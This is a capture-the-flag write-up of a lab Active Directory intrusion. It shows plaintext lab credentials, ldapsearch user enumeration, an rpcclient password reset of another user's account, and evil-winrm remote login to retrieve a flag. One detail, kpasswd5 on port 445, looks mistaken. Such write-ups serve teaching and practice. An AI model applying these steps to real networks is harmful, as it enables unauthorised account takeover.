


## [RV] Flag 5  



In the database from FLAG4, we can find a `users` table that lists a bunch of credentials.  


Running `smbclient` on all the credentials shows that only `O.Martinez` has access to the `Maintenance` share.  


Inside the `Maintenance` share, we can find `SOP.pdf`, which contains another pair of credentials.  


```
UPN: R.Patel@JEZZCORP.LOCAL
Password: sL5Yc7Bd
```

The credentials for `R.Patel` can't access the Windows machine on `.40`, but we can run `ldapsearch` to find other users on the network that might be able to.  

```bash
ldapsearch -x -H ldap://10.3.10.40 -D "R.Patel@JEZZCORP.LOCAL" -w "sL5Yc7Bd" -b "DC=JEZZCORP,DC=LOCAL" "(objectClass=user)"
```

This will retrieve the account info for `S.Ong`, which is the only member of `CN=Remote Management Users,CN=Builtin,DC=JEZZCORP,DC=LOCAL`, which the account perms for `WinRM`.  

However, we have no way of fetching the account's password yet.  

```
# S.Ong, Users, JEZZCORP.LOCAL
dn: CN=S.Ong,CN=Users,DC=JEZZCORP,DC=LOCAL
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: S.Ong
distinguishedName: CN=S.Ong,CN=Users,DC=JEZZCORP,DC=LOCAL
instanceType: 4
whenCreated: 20251220105255.0Z
whenChanged: 20251223115710.0Z
uSNCreated: 16460
memberOf: CN=Remote Management Users,CN=Builtin,DC=JEZZCORP,DC=LOCAL
...
```

Running `nmap` to scan the services on the network shows `kpasswd5` on port `445`.  

`kpasswd5` is the Kerberos password change service, meaning we could potentially change the password for `S.Ong`.  


I was able to use `rpcclient` to change `S.Ong`'s password.  

```bash
└─$ rpcclient -U R.Patel%sL5Yc7Bd 10.3.10.40
rpcclient $> setuserinfo2 S.Ong 23 'test'
```

After that, we can finally access the Windows Machine using `S.Ong`'s account.  

```bash
evil-winrm -i 10.3.10.40 -u S.Ong -p test
```

In the machine, we just have to `cd` to `C:\FLAG5` to locate the flag file.  



Flag: `YBN25{b85076a1763c1ad429821a641074fa41}`